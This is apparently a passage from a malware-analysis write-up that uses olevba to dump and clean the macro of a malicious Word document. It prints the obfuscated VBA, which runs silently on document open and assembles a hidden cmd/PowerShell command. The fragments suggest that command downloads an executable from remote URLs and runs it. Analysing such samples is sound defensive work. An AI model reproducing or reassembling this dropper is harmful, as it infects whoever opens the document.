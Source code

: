 ![](/img/1536978687723.png)

### VBA

#### Dumping and Cleaning

First, I'll dump out the VBA using `olevba`, just calling it as
`olevba [filename]`. In the output, I see the following three
Subs/Functions defined:

-   Document_Open()
-   FPwimk()
-   FScXPdzAh()

There's also a bunch of junk added to make things more confusing, all in
the form of `VarType …` calls. These lines just evaluate to ints, and
are space fillers.

I'll clean up the output by removing the metadata added by olevba and
the VarType lines. One trick in `vim` is to do `:g/VarType/d` to quickly
delete all of these. I'm left with the following vba:



    Private Sub Document_open()
    On Error Resume Next
    Shell FPwimk + FScXPdzAh, Format(vbHide)
    End Sub

    Function FPwimk()
    On Error Resume Next
    USojhESRic
     = Format(Chr(0 + 1 + 2 + 5 + 91)) + "md " + "/V/" + Format(Chr(0 + 1 + 1
     + 3 + 62)) + Format(Chr(0 + 0 + 0 + 1 + 33)) + "s" + "^e^t ^" + "K1" +
    "=" + "^ ^    " + "^ ^ ^" + "    "
    Tqssc = "   " + " " + "^  }^" +
    "}^{^h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^t^a" + Format(Chr(0 + 1 + 2
     + 5 + 91)) + "};ka^e" + "r^b"
    oOsKiVzW = ";" + "z^i^" + "A$ m" + "etI-e" + "^k" + "^" + "o" + "v" + "n" + "I;"
    YjmhqPb = ")" + "^zi" + "^A^$^" + " " + "^,dq" + "^f$" + "(^"
    krszIdntsUo
     = "e^li^F^" + "dao^lnw" + "^oD." + Format(Chr(0 + 1 + 2 + 5 + 91)) +
    "^W" + "V^$" + "{^yrt{)" + "t^" + "I^w^$" + "^" + " ni^ d" + "q^f^$(h" +
     Format(Chr(0 + 1 + 2 + 5 + 91)) + "a^er" + "o^f"
    DvWCiTuRV = ";^'e^xe" + ".^'" + "^+Kz" + "^j^$+^'" + "\^'+" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^i" + "l^bu^"
    jIBcBnjZ = "p^:vn^" + "e^$=z^" + "i^A$^;^" + "'^9" + "63^" + "' = ^K" + "z^j^$^" + ";" + ")" + "'^@'(" + "t" + "i^l" + "^pS^.^'"
    KWsLc = "nkt.2" + "a^g" + "r^at^=l" + "?php.t" + "^o^ksn"
    HLFivtYKQ
     = "a" + "po" + "/TT" + "R/mo" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^." +
     "r^j^" + "5om" + "2" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^s^e"
    wRhwirP = "fd5^9" + "t" + "//:p^t^" + "t^h'=" + "tI^w"
    vcjvLjqHS
     = "$" + ";^tn^e" + "^il" + Format(Chr(0 + 1 + 1 + 3 + 62)) + "be^" +
    "W^.^" + "t^eN" + " ^t" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^ej" +
    "^bo^" + "-^w^"
    aPaiGjc = "en=" + Format(Chr(0 + 1 + 2 + 5 + 91)) +
    "W" + "V" + "$^" + " ^lle" + "h^sr" + "^e^w^o" + "^p&&" + "for
    /^" + "L %R " + "^in (" + "2^6" + "^5^;-^" + "1"
    kBEtovj = ";^0)d" + "^" + "o ^" + "se^t ^Z" + "^Y=" + "!^Z^" + "Y!" + "!^K1:~%" + "R" + ",1!&&i"
    FPwimk
     = USojhESRic + Tqssc + oOsKiVzW + YjmhqPb + krszIdntsUo + DvWCiTuRV +
    jIBcBnjZ + KWsLc + HLFivtYKQ + wRhwirP + vcjvLjqHS + aPaiGjc + kBEtovj
    End Function
